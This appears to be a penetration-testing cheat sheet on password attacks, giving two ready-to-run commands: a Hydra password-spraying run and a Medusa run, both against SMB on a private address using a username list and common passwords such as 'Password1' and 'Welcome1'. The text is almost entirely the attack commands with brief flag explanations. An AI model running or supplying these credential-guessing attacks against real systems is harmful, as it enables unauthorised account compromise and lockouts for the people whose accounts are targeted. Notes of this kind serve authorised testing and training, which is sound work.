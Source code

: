 # Password attacks

### Hydra

The below command will perform a password attack using a total of 2 attempts per username in the last. \
\
1\. -p \<password> = password\
2\. -e s = try the username as the password

```
hydra -L Common\ users\ list.txt -p Password1 -e s -V 192.168.95.11 smb
```

### Medusa

The below command will perform 1 password attack against each username in the list.&#x20;

1. \-p \<password> = password

```
medusa -h 192.168.95.11 -U Common\ users\ list.txt -p Welcome1 -M smbnt -m GROUP:DOMAIN
```

